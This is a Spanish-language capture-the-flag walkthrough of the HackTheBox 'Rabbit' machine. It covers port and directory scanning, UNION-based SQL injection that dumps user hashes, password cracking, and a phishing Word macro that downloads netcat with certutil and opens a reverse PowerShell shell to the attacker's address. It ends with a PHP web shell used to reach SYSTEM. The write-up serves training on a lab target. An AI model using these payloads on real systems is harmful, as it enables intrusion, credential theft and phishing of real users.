



Resolución de la máquina Rabbit de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.10.71
Nmap scan report for 10.10.10.71
PORT STATE SERVICE
25/tcp open smtp
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
389/tcp open ldap
443/tcp open https
445/tcp open microsoft-ds
464/tcp open kpasswd5
587/tcp open submission
593/tcp open http-rpc-epmap
636/tcp open ldapssl
808/tcp open ccproxy-http
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
3306/tcp open mysql
5722/tcp open msdfsr
5985/tcp open wsman
8080/tcp open http-proxy
9389/tcp open adws
47001/tcp open winrm
El puerto 80 nos da forbidden asi que iniciamos fuzzeando el 8080 con wfuzz, vemos complain
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://rabbit.htb:8080/FUZZ -t 100 --hc 404
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://rabbit.htb:8080/FUZZ
Total requests: 30000
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000300: 403 11 L 33 W 307 Ch "phpmyadmin"
000000245: 200 106 L 178 W 10065 Ch "index"
000000673: 301 9 L 29 W 326 Ch "joomla"
000003980: 200 344 L 2576 W 197251 Ch "favicon"
000005528: 200 106 L 178 W 10065 Ch "Index"
000005776: 403 11 L 33 W 307 Ch "phpsysinfo"
000006277: 301 9 L 29 W 326 Ch "Joomla"
000006376: 403 11 L 33 W 300 Ch "con"
000011490: 403 11 L 33 W 300 Ch "aux"
000016564: 403 11 L 33 W 304 Ch "adminer"
000023235: 301 9 L 29 W 328 Ch "complain"
000026988: 403 11 L 33 W 300 Ch "prn"
Al abrir el directorio del puerto 8080 en la web vemos un panel de autenticación
Ya que tenemos un boton para registrarnos lo hacemos con una cuenta cualquiera
Una vez creada la cuenta nos autenticamos en el login con las credenciales que usamos

Buscando vulnerabilidades encontramos un error sql en el campo id de la siguiente direccion web
http://rabbit.htb:8080/complain/view.php?mod=admin&view=repod&id=enginner
Cuando agregamos una comilla al id, nos da un error de la sintaxis de sql
enginner'
Usando order by podemos iterar por varios numeros, bajando hasta el 8 nos da error
enginner order by 8-- -
Al bajar a la columna 7 se elimina el error, asi sabemos que hay 7 columnas
enginner order by 7-- -
Podemos jugar con union para representar los campos, podemos ver varios en la web
engineer union select 1,2,3,4,5,6,7-- -

Podemos aprovecharnos del campo 2 para representar el nombre de la base de datos
engineer union select 1,database(),3,4,5,6,7-- -
Esta en uso complain pero enumeremos todas las bases de datos que existgen
engineer union select 1,schema_name,3,4,5,6,7 from information_schema.schemata-- -

Una que parece bastante interesante es secret, enumeremos sus tablas
engineer union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=0x736563726574-- -
Solo vemos users, enumeremos las columnas que son solo username y password
engineer union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema=0x736563726574 and table_name=0x7573657273-- -
Dumpeamos ambos campos y obtenemos una lista de usuarios y hashes
engineer union select 1,concat(username,0x3a,password),3,4,5,6,7 from secret.users-- -
Los guardamos en un archivo hashes y procedemos a intentar romperlos con john
❯ cat hashes
Kain:33903fbcc0b1046a09edfaa0a65e8f8c
Raziel:719da165a626b4cf23b626896c213b84
Ariel:b9c2538d92362e0e18e52d0ee9ca0c6f
Dimitri:d459f76a5eeeed0eca8ab4476c144ac4
Magnus:370fc3559c9f0bff80543f2e1151c537
Zephon:13fa8abd10eed98d89fd6fc678afaf94
Turel:d322dc36451587ea2994c84c9d9717a1
Dumah:33da7a40473c1637f1a2e142f4925194
Malek:dea56e47f1c62c30b83b70eb281a6c39
Moebius:a6f30815a43f38ec6de95b9a9d74da37
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 9 password hashes with no different salts (Raw-MD5 [MD5 128/128 XOP 4x2])
barcelona (Malek)
santiago (Moebius)
popcorn (Dumah)
pussycatdolls (Ariel)
xNnWo6272k7x (Magnus)
Session completed
Tenemos credenciales, pero ¿donde las usamos? encontramos que en 443 esta abierto por lo que podemos fuzzear el puerto 80 por https
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u https://rabbit.htb/FUZZ -t 100 --hc 404
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: https://rabbit.htb/FUZZ
Total requests: 30000
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000056: 301 1 L 10 W 156 Ch "aspnet_client"
000000210: 302 1 L 10 W 145 Ch "public"
000001300: 302 1 L 10 W 145 Ch "exchange"
000001112: 302 1 L 10 W 145 Ch "Public"
000002140: 401 0 L 11 W 58 Ch "rpc"
000006711: 301 1 L 10 W 156 Ch "Aspnet_client"
000009312: 301 0 L 0 W 0 Ch "owa"
000011231: 302 1 L 10 W 145 Ch "PUBLIC"
000011469: 301 1 L 10 W 156 Ch "aspnet_Client"
000015917: 302 1 L 10 W 145 Ch "Exchange"
000020258: 301 1 L 10 W 156 Ch "ASPNET_CLIENT"
000024056: 401 0 L 0 W 0 Ch "ews"
000024065: 302 1 L 10 W 145 Ch "exchweb"
000016720: 301 1 L 10 W 155 Ch "autodiscover"
000017388: 302 3 L 8 W 126 Ch "ecp"
Podemos ver un /owa que es outlook, podemos autenticarnos en ese servicio como Ariel
Al entrar podemos ver un panel de outlook con un mensaje de Administrator
En este punto podemos enviar un mensaje a todos los usuarios que conocemos hasta ahora
Podemos adjuntar archivos, ¿y si aplicamos un poco de phising mediante una macro maliciosa?
Iniciamos creando un archivo de word y agregando una macro que llamaremos pwned en este caso
Definimos una estructura que a nivel de sistema descargue el netcat que compartiremos de nuestro lado y nos envie una powershell
Sub Main
shell("cmd /c certutil -urlcache -split -f http://10.10.14.10/nc64.exe C:\ProgramData\nc64.exe && C:\ProgramData\nc64.exe -e powershell 10.10.14.10 443")
End Sub
Ahora hacemos que la macro se ejecute en cuanto abra el archivo y asi asegurar que lo haga
Enviamos un correo con el archivo adjunto y despues de mucho, mucho tiempo recibimos la shell
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.71
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
PS C:\Program Files (x86)\OpenOffice 4\program> whoami
htb\raziel
PS C:\Program Files (x86)\OpenOffice 4\program> cd C:\Users\Raziel\Desktop
PS C:\Users\Raziel\Desktop> type user.txt
c4d**************************14f
PS C:\Users\Raziel\Desktop>
Mirando la ruta donde esta corriendo la web podemos ver que tenemos capacidad de escritura
PS C:\Wamp64> icacls www
www NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
BUILTIN\Users:(I)(CI)(AD)
BUILTIN\Users:(I)(CI)(WD)
CREATOR OWNER:(I)(OI)(CI)(IO)(F)
Successfully processed 1 files; Failed processing 0 files
PS C:\Wamp64>
Creamos una archivo php que nos ejecute el netcat y nos envie la shell, lo guardamos en www
PS C:\Wamp64\www> type shell.php
<?php
system('C:\ProgramData\nc64.exe 10.10.14.10 443 -e powershell');
?>
PS C:\Wamp64\www>
Hacemos una peticion y como administrator corre la web, hemos escalado privilegios
❯ curl http://10.10.10.71:8080/shell.php
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.71
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
PS C:\Wamp64\www> whoami
nt authority\system
PS C:\Wamp64\www> cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> type root.txt
0b2**************************6f3
PS C:\Users\Administrator\Desktop>